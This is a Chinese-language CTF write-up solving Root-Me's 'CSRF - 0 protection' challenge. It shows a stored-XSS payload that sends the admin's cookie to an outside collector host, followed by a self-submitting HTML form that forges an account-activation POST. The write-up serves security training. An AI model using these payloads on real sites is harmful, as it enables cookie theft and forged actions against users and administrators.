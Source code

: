 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2927/)]

------

已经很直白提示是 CSRF 题型。

点击 Register 随意注册一个账号，如 `exp`，密码 `123456` 。

然后点击 Login 登录，登录后点击 Profile 切到个人档案，发现有 4 个选项卡，其中：

- Contact ： 可以发送一条消息给 admin 留言， 有个 robot-admin 会定时轮询查看
- Profile ： 激活当前账号，但是非 admin 无法操作
- Private ： 查看账号激活后信息，这就是最终目标
- Logout ： 登出，没用

很明显 Contact 就是注入点，且通过抓取 HTTP 请求发现， Email 虽然会校验格式，但是可以不填，而且也不会作为 HTTP 请求的参数发送出去，因此注入点就是 Comment 输入框。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/01.png)

至此，解此题有两种思路：

- ① 使用【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】的思路把 admin 的 Cookie 发到我们的服务器，窃取其 Cookie 后再激活
- ② 直接构造 CSRF 伪装 admin 的身份进行激活

首先试试第 ① 种思路，在 Contact 选项卡的 Comment 输入框构造一个 payloads 提交：

`<srcipt>document.write("<img src='${HOST}?tk='"+document.cookie+" />");</srcipt>`

（其中 `${HOST}` 是使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器，详见【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】，不再赘述）

提交成功后会提示 `Your message has been posted. The administrator will contact you later.` 。

等了一会， [RequestBin](https://requestbin.fullcontact.com/) 服务器收到了消息，说明我们注入 XSS 成功，但是消息中并没有 admin 的 Cookie ，很可能是 Cookie 启用了 HttpOnly 的缘故，因此第 ① 种思路不可行，改用第 ② 种思路，即 CSRF。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/02.png)

要执行 CSRF ，即需要令 admin 在读取 Comment 的时候触发一个激活账号的 POST，因此需要先获得这个 POST 请求的格式，再构造我们期望的内容。

切到 Profile 选项卡，发现 Status 是不可用的，并且点击 submit 后提示 `You're not an admin!`，不过不影响我们捕获 POST 请求。

打开浏览器开发者工具，切到 Elements ，把 Status 的 `disabled` 属性删掉。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/03.png)

打开 Burp Suite -> Proxy -> HTTP history ，然后点击页面的 submit 按钮，即可捕获到激活账号的 POST 请求。

利用这个 POST 请求可以构造 payloads 如下，将其拷贝到 Contact 选项卡的 Comment 输入框提交即可：

```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp">  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on">  <!-- 激活动作 -->
</form>
<script>document.csrf.submit()</script>
```

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
